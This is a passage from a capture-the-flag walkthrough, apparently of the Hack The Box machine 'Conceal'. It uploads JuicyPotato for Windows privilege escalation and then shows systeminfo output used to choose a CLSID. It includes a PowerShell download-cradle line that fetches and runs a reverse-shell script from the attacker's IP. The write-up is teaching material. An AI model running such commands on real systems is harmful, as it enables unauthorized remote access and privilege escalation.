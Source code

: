 
That means I can use potato.

### JuicyPotato

Get the latest
[JuicyPotato](https://github.com/ohpe/juicy-potato/releases) and upload
it:



    PS C:\users\Destitute\appdata\local\temp> invoke-webrequest -uri http://10.10.14.15:81/juicypotato.exe -outfile jp.exe



I'll also create a `rev.bat` that runs the same command I issued to the
webshell:



    powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.15/Invoke-PowerShellTcp.ps1')



Now I need to get a valid CLSID. Based on the `systeminfo` I can see
it's Windows 10 Enterprise:



    PS C:\Windows\SysWOW64\inetsrv>systeminfo

    Host Name:                 CONCEAL
    OS Name:                   Microsoft Windows 10 Enterprise
    OS Version:                10.0.15063 N/A Build 15063
    OS Manufacturer:           Microsoft Corporation
    OS Configuration:          Standalone Workstation
    OS Build Type:             Multiprocessor Free
    Registered Owner:          Windows User
    Registered Organization:
    Product ID:                00329-00000-00003-AA343
    Original Install Date:     12/10/2018, 20:04:27
    System Boot Time:          13/05/2019, 06:42:20
    System Manufacturer:       VMware, Inc.
    System Model:              VMware Virtual Platform
    System Type:               x64-based PC
    Processor(s):              1 Processor(s) Installed.
                               [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2300 Mhz
    BIOS Version:              Phoenix Technologies LTD 6.00, 05/04/2016
    Windows Directory:         C:\Windows
    System Directory:          C:\Windows\system32
    Boot Device:               \Device\HarddiskVolume1
    System Locale:             en-gb;English (United Kingdom)
    Input Locale:              en-gb;English (United Kingdom)
    Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
    Total Physical Memory:     2,047 MB
    Available Physical Memory: 1,256 MB
    Virtual Memory: Max Size:  3,199 MB
    Virtual Memory: Available: 2,306 MB
    Virtual Memory: In Use:    893 MB
    Page File Location(s):     C:\pagefile.sys
    Domain:                    WORKGROUP
    Logon Server:              N/A
    Hotfix(s):                 N/A
    Network Card(s):           1 NIC(s) Installed.
                               [01]: Intel(R) 82574L Gigabit Network Connection
                                     Connection Name: Ethernet0
                                     DHCP Enabled:    No
                                     IP address(es)
                                     [01]: 10.10.10.116